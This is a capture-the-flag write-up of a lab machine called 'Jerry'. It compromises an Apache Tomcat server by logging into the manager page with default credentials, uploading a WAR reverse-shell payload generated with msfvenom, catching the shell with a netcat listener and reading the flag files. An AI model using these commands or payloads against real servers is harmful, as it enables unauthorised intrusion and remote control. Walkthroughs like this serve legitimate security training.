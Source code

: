 # Jerry

![](../../.gitbook/assets/jerry.png)

At the beginning, i start running nmap with some flags to execute default scripts and get services version.

```
sudo nmap -sC -sV $ip -Pn

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests

nmap --script vuln $ip -p 8080 -Pn

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-method-tamper:
|   VULNERABLE:
|   Authentication bypass by HTTP verb tampering
|     State: VULNERABLE (Exploitable)
|       This web server contains password protected resources vulnerable to authentication bypass
|       vulnerabilities via HTTP verb tampering. This is often found in web servers that only limit access to the
|        common HTTP methods and in misconfigured .htaccess files.
|
```

Knowing that it was about Tomcat, i open the browser and start to search into it's page(target:8080). After entering into management session, an user and password was request but until that moment I've never seen some signal of this authentication credentials, after try some admin/admin credentials i was answered with an error showing the default credentials.

(image)

Now with the credentials, is allowed login-in on the admin page

(image)

At this page we can see an fileupload field. Compering with my searching results about the tomcat version, it's may be vulnerable.

Trying upload some content, i've discovered that the field  supports only .war files, knowing it, was crafted an reverse shell payload with msfvenom and upload it.

```
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=target_ip LPORT=4444 -f war > sample.war
```

After craft the payload, we start a tcp listening server with netcat,

```
nc -lvnp 4444
```

After that, the activation of shell is maded clicking on it's link on webpage. And we get an reverse access.

gain that access, we travel around the directory's searching for flags and in:

```
Directory of C:\Users\Administrator\Desktop\flags
```

We found an file called "flags.txt" after that, we type:

```
type *
```

And get both flags
